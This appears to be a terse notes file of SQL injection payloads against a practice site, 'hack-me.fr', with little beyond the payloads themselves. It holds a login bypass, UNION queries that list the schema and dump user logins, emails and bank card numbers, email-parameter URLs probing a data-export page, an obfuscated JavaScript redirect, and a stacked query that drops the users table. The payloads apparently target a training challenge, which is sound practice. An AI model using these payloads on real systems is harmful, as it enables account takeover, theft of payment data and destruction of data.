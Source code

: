 https://hack-me.fr/auth.php?login=

// 1
sophie' OR true --']

// 2
%'  union 
SELECT database(), t.table_name, concat(c.column_name,':',c.data_type) FROM information_schema.tables AS t NATURAL JOIN information_schema.columns AS c WHERE table_schema = database()  -- ' ORDER BY 1,3    --' 

// 3
%'  union
SELECT concat(id, ' - ', login), email, is_admin_or_not from c1_hackme.users   -- ' ORDER BY login    --'

	adminKikoolol' OR true --']
  
// 4
%'  
union SELECT &quot;USER&quot;, &quot;TOTAL&quot;, &quot;CARD_NUMBER&quot;
union SELECT user_id, total, bank_card_number from c1_hackme.transactions   -- ' ORDER BY total desc    --'

%'   
union SELECT "USER", "TOTAL", "CARD_NUMBER" 
union SELECT user_id, total t, bank_card_number from c1_hackme.transactions   -- ' ORDER BY t DESC    --'

%'   
union SELECT "USER", "TOTAL", "CARD_NUMBER" 
union SELECT user_id, CAST(total as float) t, bank_card_number from c1_hackme.transactions -- ' ORDER BY t desc    --'

// 5
https://hack-me.fr/backup-rgpd.php?email=kikoo@mylittleponey.fr
https://hack-me.fr/backup-rgpd.php?email=tristandu06@gmail.com

var _0x3b79=['./aj','php'];(function(_0x534e32,_0x3b79e9){var _0x18d20d=function(_0x4f7ff6){while(--_0x4f7ff6){_0x534e32['push'](_0x534e32['shift']());}};_0x18d20d(++_0x3b79e9);}(_0x3b79,0xdd));var _0x18d2=function(_0x534e32,_0x3b79e9){_0x534e32=_0x534e32-0x0;var _0x18d20d=_0x3b79[_0x534e32];return _0x18d20d;};function next(){var _0x29bdc6=_0x18d2;window['location']=_0x29bdc6('0x1')+'ax.'+_0x29bdc6('0x0');}

next();


// 7
@' or true; SET FOREIGN_KEY_CHECKS=0; DROP TABLE c1_hackme.users --']
